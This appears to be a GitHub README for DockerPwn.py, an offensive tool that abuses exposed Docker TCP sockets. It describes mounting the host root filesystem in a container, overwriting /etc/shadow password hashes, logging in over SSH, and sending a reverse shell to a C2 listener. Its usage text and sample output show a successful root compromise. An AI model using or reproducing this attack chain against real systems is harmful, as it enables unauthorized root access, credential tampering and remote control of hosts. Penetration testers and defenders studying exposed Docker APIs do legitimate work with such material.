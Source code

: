 # DockerPwn.py

Automation for abusing an exposed Docker TCP Socket.

This will automatically create a container on the Docker host with the host's root filesystem mounted,
allowing arbitrary read and write of the host filesystem (which is bad).

Once created, the script will employ the method of your choosing for obtaining a root shell. Currently,
only shadow is working - this alters root's hash in /etc/shadow to reflect a password of 'DockerPwn', as well
as any other user with a valid SHA512 Unix hash in /etc/shadow.

Once this is done, the script will attempt to use Paramiko to login to all users enumerated from 
/etc/passwd using the password 'DockerPwn'. Once a valid login is discovered, a reverse shell will be sent
to the built-in handler using /bin/bash. The built-in handler will then automatically obtain a PTY, escalate to root,
and clear the screen.

Shell I/O is logged for convenience and output to ./DockerPwn.log

## Roadmap:

Implement chroot method, bin method for quieter operation.

## Usage:
```
DockerPwn.py [-h] [--target TARGET] [--port PORT] [--image IMAGE] [--method METHOD] [--c2 C2]

optional arguments:
  -h, --help       show this help message and exit
  --target TARGET  IP of Docker Host
  --port PORT      Docker API TCP Port
  --image IMAGE    Docker image to use. Default is Alpine Linux.
  --method METHOD  Method to use. Valid methods are shadow, chroot, binary. Default is shadow.
  --c2 C2          Local IP and port in [IP]:[PORT] format to receive the shell.
 ```
## Example Output:

```
Dylans-MacBook-Pro:DockerPwn.py dylan$ /usr/local/bin/python3 /Users/dylan/Documents/GitHub/DockerPwn.py/DockerPwn.py --target 192.168.0.21 --port 2375 --c2 192.168.0.17:8080


[+] Successfully probed the API. Writing out list of containers just in case there's something cool.

[+] Downloading latest Alpine Image for a lightweight pwning experience.

[+] Alpine image is downloading to the host. Hope we aren't setting off any alarms. Sleeping for a bit.

[+] Alright, creating Alpine Linux Container now...

[+] Success! Created container with root volume mounted. Got ID a8f4825a694cd38da7858949a6e4cbfc3deb10a17bdb93600fcdf8de2d67f962!

[+] Starting container a8f4825a694cd38da7858949a6e4cbfc3deb10a17bdb93600fcdf8de2d67f962

[+] Container successfully started. Blue team will be with you shortly.

[+] Phew, alright. Creating the EXEC to change passwords.

[+] EXEC successfully created on container! Got ID 8d306c62296e56a3560013636cd899de8072f9fb9c535e3af02d88359a258156!

[+] Now triggering the EXEC to change passwords. Hope SSH is open...

[+] EXEC successfully triggered. Printing users found in /etc/passwd.

[!] User List: dylan sshd pollinate landscape dnsmasq uuidd lxd _apt messagebus syslog systemd-resolve systemd-network nobody gnats irc list backup www-data proxy uucp news mail lp man games sync sys bin daemon root

root@ubuntuserver:/home/dylan# id; hostname; date
uid=0(root) gid=0(root) groups=0(root)
ubuntuserver
Mon Nov 25 01:19:37 UTC 2019
root@ubuntuserver:/home/dylan# 
```
